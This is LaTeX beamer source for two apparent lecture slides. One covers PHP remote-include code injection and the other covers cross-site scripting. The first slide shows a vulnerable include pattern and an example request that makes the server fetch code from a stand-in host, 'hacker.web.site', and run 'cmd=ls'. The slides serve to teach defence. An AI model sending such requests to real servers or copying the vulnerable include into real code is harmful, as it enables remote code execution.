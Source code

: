 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]{Script Code Injection}
  \begin{itemize}
  \item input includes code that is then executed
  \item PHP: variable + global field variables + remote include
  \item this type of attack is widely exploited
  \end{itemize}

  \begin{verbatim}
<?php
include $path . 'functions.php';
include $path . 'data/prefs.php';
...

GET /calendar/embed/day.php?path=\
       http://hacker.web.site/hack.txt?&cmd=ls
  \end{verbatim}
\end{frame}


\begin{frame}{Cross Site Scripting Attacks}
  \begin{itemize}
  \item attacks where input from one user is later
output to another user
  \item XSS commonly seen in scripted web apps
  \begin{itemize}
    \item with script code included in output to browser
    \item any supported script, e.g. Javascript, ActiveX
    \item assumed to come from application on site
  \end{itemize}
  \item XSS reflection
  \begin{itemize}
    \item malicious code supplied to site
    \item subsequently displayed to other users
  \end{itemize}
  \end{itemize}
\end{frame}
\end{document}
